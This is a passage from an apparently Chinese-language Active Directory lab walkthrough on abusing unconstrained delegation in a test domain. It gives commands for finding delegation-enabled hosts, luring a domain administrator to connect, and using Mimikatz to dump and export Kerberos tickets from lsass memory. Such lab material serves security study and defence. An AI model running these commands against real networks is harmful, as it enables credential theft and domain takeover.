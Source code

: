 ```plain
Get-NetComputer -Unconstrained -Domain hacke.testlab | select name
```

[![](assets/1705982146-853a1992f2787c9fc2130fdd4196fc38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222457-b024b42a-b79f-1.png)  
Step 2：在win7上访问域控主机，提示拒绝访问

```plain
dir \\dc.hacke.testlab\c$
```

[![](assets/1705982146-d11b708cf87cb9bda97385c19eb01f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222512-b8e7efdc-b79f-1.png)  
Step 3：此时我们在域控主机Windows Server 2012 R2上以Administrator身份访问win7机器

```plain
dir \\win7-test.hacke.testlab\c$
```

[![](assets/1705982146-1cbd9880b1d73f163957e974eb3a7d23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222530-c3e8d9b4-b79f-1.png)  
Step 4：此时在win 7主机的lsass.exe内存中就会有域用户administrator的TGT票据，之后我们在window 7上以管理员的方式运行Mimikatz，执行以下命令：

```plain
privilege::debug 
sekurlsa::tickets /export
```
